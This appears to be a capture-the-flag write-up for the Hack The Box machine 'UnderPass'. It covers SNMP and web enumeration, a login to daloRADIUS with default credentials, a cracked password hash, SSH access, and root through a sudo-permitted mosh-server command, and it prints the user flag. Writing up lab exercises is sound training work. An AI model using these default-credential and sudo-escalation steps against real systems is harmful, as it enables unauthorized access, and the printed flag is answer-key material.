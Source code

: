```yaml
---
layout: post
title: "UnderPass"
description: "UnderPass is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
```bash
Nmap scan report for underpass.htb (10.10.11.48)
Host is up (0.36s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

UDP:
```bash
Nmap scan report for underpass.htb (10.10.11.48)
Host is up (0.019s latency).

PORT    STATE SERVICE
161/udp open  snmp
```

### Enumerate SNMP (Port 161)
We can use snmpbulkwalk to enumerate the following interesting info:
```bash
snmpbulkwalk -c public -v2c 10.10.11.48 .

steve@underpass.htb
UnDerPass.htb is the only daloradius server in the basin!
```

Modify hosts file:
```bash
tail -n 1 /etc/hosts
10.10.11.48 underpass.htb
```

### Enumerate HTTP (Port 80)
Landing page is running the default ubuntu page. Found no subdomains or files using feroxbuster & ffuf. After running out of ideas I started researching `daloradius` since this was the only interesting result from SNMP:
![Pasted image 20250119121845.png](/images/Pasted image 20250119121845.png){: .normal }

We get a forbidden error, let's try to run feroxbuster on this directory:
```bash
feroxbuster -u http://10.10.11.48/daloradius/ -x php,html,pdf,txt                                                 
200      GET      112l      352w     4421c http://10.10.11.48/daloradius/app/users/login.php
```

Login page:
![Pasted image 20250119122018.png](/images/Pasted image 20250119122018.png){: .normal }

There is a login page for the operators. We can authenticate using default creds (administrator:radius): [Link](https://github.com/lirantal/daloradius/blob/master/doc/install/INSTALL.debian.md).
![Pasted image 20250119130230.png](/images/Pasted image 20250119130230.png){: .normal }

Found database password on the website:
![Pasted image 20250119130440.png](/images/Pasted image 20250119130440.png){: .normal }

Found a user:
![Pasted image 20250119132036.png](/images/Pasted image 20250119132036.png){: .normal }
> Password hash cracks to: `underwaterfriends` using crackstation.
{: .prompt-info }

We can SSH as this user:
```bash
ssh svcMosh@underpass.htb
--SNIP--
svcMosh@underpass:~$ id
uid=1002(svcMosh) gid=1002(svcMosh) groups=1002(svcMosh)
```

User.txt: `44aaaed3a1f3318ac9223250f07c6d0c`
```bash
svcMosh@underpass:~$ cat user.txt 
44aaaed3a1f3318ac9223250f07c6d0c
```

### Privilege Escalation
Sudo -l output:
```bash
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

Whenever we start a mosh server using the /usr/bin/mosh-server command we don't automatically authenticate. Instead what we can do is use the mosh command and specify the --server flag. Since we can run mosh-server as sudo we are able to automatically connect to a privileged instance: [Link](https://mosh.org/#usage)
```bash
svcMosh@underpass:~$ mosh --help
--SNIP--
        --server=COMMAND     mosh server on remote machine
							 (default: "mosh-server")
--SNIP--
```

We can run the following command to connect to a privileged mosh server:
```bash
mosh --server="sudo /usr/bin/mosh-server" localhost
```

Shell as root:
```bash
root@underpass:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Proof of exploitation:
![Pasted image 20250119133309.png](/images/Pasted image 20250119133309.png){: .normal }


### PWNED!!!
![Pasted image 20250119133331.png](/images/Pasted image 20250119133331.png){: .normal }